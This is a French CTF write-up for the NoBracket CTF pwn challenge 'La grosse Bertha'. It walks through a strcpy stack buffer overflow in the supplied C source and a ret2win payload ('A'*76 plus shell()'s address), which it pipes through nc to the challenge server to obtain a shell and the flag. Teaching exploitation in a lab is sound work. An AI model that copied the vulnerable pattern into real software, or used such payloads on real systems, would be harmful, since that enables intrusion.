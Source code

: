 ```yaml
---
layout: post
title: La grosse Bertha
subtitle: Write-Up pour le NBCTF
tags: [writeup, pwn, nbctf]
comments: true
---
```

Bonjour ! Voici mon write-up sur le challenge **La grosse Bertha** à l'occasion du NoBracket CTF. Il s'agit de mon troisième write-up, alors n'hésitez pas à aller voir les autres après avoir lu celui-là !
Je ne suis d'ordinaire pas très fan de pwn, mais j'ai apprécié faire ce challenge, qui m'a remis les basiques de l'exploitation de binaire en tête. Merci donc à `MaitreChiffon` pour cela. Mais sur ce, passons au write-up !

## Premier coup d'œil
![Challenge](https://cdn.discordapp.com/attachments/822188888297963560/1175380527801454694/Capture_decran_34.png?ex=656b056b&is=6558906b&hm=7d97a060ac7f251fb39adc2b4cdca9cbd8389c70ad9209ee41ca16cd92c5bbb0&){: .mx-auto.d-block :}

Ce challenge dispose de deux fichiers, un binaire ainsi que le code source, écrit en C, de ce binaire. Enfin, une adresse en remote est fournie avec ce challenge, pour pouvoir réaliser le challenge à distance et ainsi avoir le flag. Mais regardons le code source fourni avant de nous atteler à l'exploitation.

## Identification de la vulnérabilité
Nous nous retrouvons donc avec un fichier `TheBigBertha.c`, dont voici le code source :
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>


void shell(){

    setreuid(geteuid(),geteuid());
    system("/bin/bash");
}


void foo(char *msg){

    char buf[64];
    puts("Delta Charlie. Ordre bien reçu.");
    strcpy(buf,msg);
    printf("La cible est : %s\n", buf);
}

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(int argc, char **argv)
{
    init();
    puts("Entrez la cible :");
    char input[512];
    fgets(input, 511, stdin);
    if(strlen(input) > 1)
    {
        foo(input);
    }
    else{
 	puts("Veuillez entrer une chaine de caractères.");
    }

    printf("Programme is exiting normally ! \n");
    return 0;
}
```

Nous avons 4 fonctions, intitulées `shell`, `foo`, `init` et `main`. La fonction `init` ne nous intéressera pas ici. Mais nous remarquons quelque chose. Une fonction n'est jamais appelée dans le programme, et il s'agit de la fonction `shell`, qui nous permet de faire spawn un shell ! Et donc sûrement de récupérer le flag ! Nous sommes donc sur ce qu'on appelle un ret2win, c'est-à-dire que nous allons chercher à exploiter ce programme pour appeler cette fonction. Mais regardons où se situe cette vulnérabilité.
Nous pourrions tout d'abord penser qu'elle se situe dans `main`, mais aucune fonction non sécurisée n'est appelée. En effet, ici, `fgets` est la version sûre du traditionnel `gets`. Rien à faire ici donc, puisque `fgets` récupère uniquement 511 caractères de `stdin`. 

{: .box-note}
**Note:** Et pourquoi pas 512 caractères ? Tout simplement parce que le dernier caractère est réservé au caractère nul (le fameux `\0` !)

Par la suite, la variable `input` sera passée en argument à la fonction `foo`. Nous regardons donc cette fonction, toujours à la recherche d'une vulnérabilité. Et puis là, nous voyons le problème immédiatement.

![strcpy](https://cdn.discordapp.com/attachments/822188888297963560/1175385452811931648/86h1e0.jpg?ex=656b0a01&is=65589501&hm=6cd10817881fa0e1af5e06454f1dff5a885b08fa9e422cdd209bb6f0390ecca6&){: .mx-auto.d-block :}

Et oui ! Le `strcpy` ici permet un buffer overflow. Mais comment cela se fait-il ? Eh bien, tout simplement, la variable `input` peut faire au maximum 512 caractères, et nous avons un `strcpy` dans la variable `buf`... Qui fait au maximum 64 caractères. Donc là, c'est l'overflow.
Nous pouvons vérifier ça assez simplement.
```console
blackraven@blackraven:~$ python3 -c "print('A'*64)" | ./TheBigBertha
Entrez la cible :
Delta Charlie. Ordre bien reçu.
La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Programme is exiting normally !
```
Ici, tout marche. Mais si nous mettons une taille de 100...
```console
blackraven@blackraven:~$ python3 -c "print('A'*100)" | ./TheBigBertha
Entrez la cible :
Delta Charlie. Ordre bien reçu.
La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault
```
Nous avons l'erreur de segmentation ! What's next ? Passons à l'exploitation !

## Exploitation

Avant toute chose, nous devons regarder l'adresse de la fonction `shell`, afin de pouvoir écraser l'adresse de retour avec l'adresse de `shell`.
Un petit tour sur `gdb` (avec bien sûr `pwndbg` et pas `peda`) nous renseigne assez vite sur l'adresse de la fonction `shell`, dont la première instruction se situe à l'adresse `0x080491f6`.

{: .box-note}
**Note:** Il ne faudra pas oublier de mettre notre adresse en little endian ! Ce qui donnera `\xf6\x91\x04\x08` !

On continue notre roadtrip sur `gdb` pour voir le padding nécessaire pour écraser le registre `EIP` avec la valeur de retour de notre adresse. Un outil très pratique, nommé `cyclic`, va nous permettre de faire cela.
![gdb](https://cdn.discordapp.com/attachments/822188888297963560/1175418096203341855/Capture_decran_35.png?ex=656b2868&is=6558b368&hm=e5eb5a6ad597aabf5c434c57efbcb28d1f1c768443daad8286283ef594e333e1&){: .mx-auto.d-block :}

Comme vous pouvez le voir, cyclic indique ici un offset de 76. On teste donc avec cette offset en utilisant python2, et non pas python3 (ce dernier a tendance à faire n'importe quoi, ce qui fait que votre payload, même s'il est juste, ne marchera pas).
```console
blackraven@blackraven:~$ python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" ' | ./TheBigBertha
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     Segmentation fault
```
Et... il ne se passe rien. Est-ce qu'on a fait quelque chose de mal ? Non, ça ne se voit peut-être pas, mais notre payload marche. Un shell spawn, mais se referme immédiatement ! Il faut donc rajouter une commande, comme `cat`, permettant de garder le shell en vie (Si cela vous intéresse, vous pouvez regarder le fonctionnement des pipes, et ainsi comprendre pourquoi nous avons ce phénomène.).
On recommence donc :
```console
blackraven@blackraven:~$ (python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" '; cat) | ./TheBigBertha
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     ls                                                                                                                                                                                                              TheBigBertha  TheBigBertha.c
```
Et ça marche ! Notre payload est fonctionnel en local, donc plus qu'à flagger en remote !
![meme](https://cdn.discordapp.com/attachments/822188888297963560/1175421284990066738/86h9ua.jpg?ex=656b2b60&is=6558b660&hm=5b128794bcb338703cd29fecddb422aa9dc73366ab70f1919606146ea6ab1442&){: .mx-auto.d-block :}

## Plus qu'à flag en remote !
Il ne nous reste plus grand chose à faire maintenant. On se connecte donc en remote à `thebigbertha.nobrackets.fr` sur le port `30343`.
```console
blackraven@blackraven:~$ (python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" '; cat) | nc thebigbertha.nobrackets.fr 30343
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     ls                                                                                                                                                                                                              password.txt                                                                                                                                                                                                    pwn                                                                                                                                                                                                             cat password.txt                                                                                                                                                                                                NBCTF{4_M0r3_D1FF1CU17_0V3rF10W_66}                                                                                                                                                                             exit
```

On a notre flag : `NBCTF{4_M0r3_D1FF1CU17_0V3rF10W_66}` !
Comme quoi, ça a du bon de crier "AAAAAA" sur La Grosse Bertha.

![meme2](https://cdn.discordapp.com/attachments/811715744835567616/999765823356948520/hacker.png?ex=6568e7fb&is=655672fb&hm=8dc2cd9f820ac46f47c3965e792aa67804bb8d9e64eb2f523bb27e536c921c69&){: .mx-auto.d-block :}


## Conclusion

J'ai bien aimé ce challenge, que j'ai trouvé très sympa à faire étant donné que cela rappelle les basiques et la méthodo de l'exploitation de binaire. Un petit ret2win fort sympathique, qui ne présage que du bon pour les challenges de la finale ! ALLEZ, EN AVANT BERTHA !
